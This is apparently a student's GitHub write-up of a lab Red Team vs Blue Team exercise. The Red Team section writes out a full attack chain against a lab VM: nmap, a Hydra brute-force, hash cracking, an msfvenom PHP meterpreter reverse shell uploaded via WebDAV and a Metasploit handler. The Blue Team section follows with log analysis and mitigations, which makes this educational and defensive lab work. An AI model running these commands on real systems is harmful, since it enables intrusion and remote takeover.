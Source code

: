 # Red Team vs Blue Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both penetration ester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![1a](https://user-images.githubusercontent.com/92223941/167281275-93a49077-e4fd-49b8-abb8-5996739eb5d8.PNG)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

![image](https://user-images.githubusercontent.com/92223941/167281335-956344b0-fdd2-4bee-af89-ebb9f989ae2c.png)

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

![Hydra password](https://user-images.githubusercontent.com/92223941/167281384-6f05f062-0e78-4dce-ad56-1fad9ec91fe1.PNG)

-	I then logged into the secret folder and found a personal note in it.

![image](https://user-images.githubusercontent.com/92223941/167281416-4ab1c2f6-beef-43a8-808b-4bbf5874493d.png)

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.

![ryan password](https://user-images.githubusercontent.com/92223941/167281434-8f81988d-a4f1-4695-b83e-bb06cc285285.PNG)

-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

![msfvenom](https://user-images.githubusercontent.com/92223941/167281455-8e01b643-d192-4939-8992-b3dca42cdc39.PNG)

-	I then uploaded the shell into the webdav directory.

![image](https://user-images.githubusercontent.com/92223941/167281502-8d68b727-b8e0-49b1-8bdf-87dc7e35cabb.png)

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

![snip 2](https://user-images.githubusercontent.com/92223941/167281556-7176de74-2fec-4aad-81e9-ae500111a626.PNG)

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.

![6](https://user-images.githubusercontent.com/92223941/167281652-3aa24019-0640-4643-a46b-da75072434c6.PNG)
![7](https://user-images.githubusercontent.com/92223941/167281666-b48aaa30-140d-463c-8287-3653eb305899.PNG)



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

![Port Scan](https://user-images.githubusercontent.com/92223941/167281697-d81d864f-0edc-4bc9-a8a3-e780750f5eba.PNG)

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

![http request](https://user-images.githubusercontent.com/92223941/167281725-b7ed6d0c-a722-4e69-b8e9-336be079fc9a.PNG)

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

![brute force attack blue team](https://user-images.githubusercontent.com/92223941/167281750-4c8eb6bf-d727-4fc0-a298-ea743b98926a.PNG)

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested

![webdav](https://user-images.githubusercontent.com/92223941/167281770-7b3f00c8-18da-4851-9339-833991e72a6b.PNG)

## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
